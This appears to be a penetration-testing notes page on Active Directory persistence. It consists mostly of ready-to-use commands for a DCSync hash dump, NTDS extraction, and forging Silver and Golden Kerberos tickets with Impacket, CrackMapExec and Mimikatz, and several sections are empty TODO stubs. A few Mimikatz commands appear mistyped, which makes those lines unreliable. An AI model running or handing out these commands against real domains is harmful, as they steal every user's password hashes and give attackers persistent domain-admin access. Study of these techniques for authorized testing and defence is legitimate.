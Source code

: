 # Persistence

## Understanding Domain Persistence

TODO

## Dcsync Attack

If we have valid credentials for a user and this user has the  `GetChanges` and  `GetChangesAll` privileges over the domain, we can execute an attack named `DCSync`. This attack will allow us to display the `NTLM` hashes of all the users of the domain. Remember that this `NTLM` hashes can be used for the `PassTheHash` technique. To do this:

```bash
secretsdump.py -dc-ip 10.10.10.1 domain.local/user:password@10.10.10.1
```

### Mimikatz

The same process can be done connecting to any machine of the domain, having valid credentials and using `Mimikatz`, to do this:

```powershell
lsadump::dsync /domain:domain.local /user:Administrator
```

## DSRM and DCshadow Attacks

TODO

## ADCS Attacks

TODO

## Dump NTDS

Once we have valid `Administrator` credentials on the `DC`, we can dump the `NTDS` file. This file has all the users and `NTLM` hashes of the domain:

```bash
cme smb 10.10.10.1 -u 'Administrator' -p 'password' --ntds vss
```

We can later use all this hashes to do `PassTheHash`.

## Silver Ticket Attack

TODO

Get Hash and SPN

```bash
impacket-GetUsersSPNs -request -dc-ip dc1.domain.local domain.local/user:pass
```

Crack Hash

Get SID

```bash
impacket-lookupsid user:password@dc1.domain.local
```

Convert Password to NTLM

```bash
iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4
```

Create Silver Ticket as Admin

```bash
impacket-ticketer -domain-sid {SID} -spn MSSQLSvc/dc1.domain.local:1433 -domain domain.local -dc-ip dc1.domain.local -nthash {NTLM} Administrator
```

Once we have the `Administrator.ccache` file, we can use it to do `Pass the Hash` to the `SPN`.

## Golden Ticket Attack

TODO

### Impacket

KRBTGT NT HASH

```bash
impacket-secretsdump.py Administrator:password@dc1.domain.local
```

Get SID

```bash
impacket-lookupsid Administrator:password@dc1.domain.local
```

Convert Password to NTLM

```bash
iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4
```

Create Golden Ticket

```bash
impacket-ticketer -domain-sid {SID} -domain domain.local -dc-ip dc1.domain.local -nthash {NTLM} baduser
```

### Mimikatz
Once we have the `Mimikatz` binary in the target machine, we can dump the information of the  `krbtgt` user to create a `Golden Ticket`. We will use the following command:

```powershell
lsadump::lsa /inject /name:krbtgt
```

We will copy this information to a file, as it has some parameters that we need to create the `Golden Ticket`. Then, we will create the `Golden Ticket` with the following command:

```powershell
kerberos::golden /domain:domain.local /sid: {SID} /rca:{NTLM HASH} /user:Administrator /ticket:golden.kirbi
```

This will generate a `golden.kirbi` file that has the mentioned `Golden Ticket`.

We can convert this ticket in `.kirbi` format to a `.ccache` ticket that we can use in Linux:

```bash
impacket-ticketConverter golden.kirbi golden.ccache 
```

Once we have the `.ccache` file, we can use it to do `Pass the Ticket` to all services in the domain as all users.

Using a `Golden Ticket` allows us to connect to the `DC` even if `Administrator` changes his user password.

## Zerologon Attack

TODO
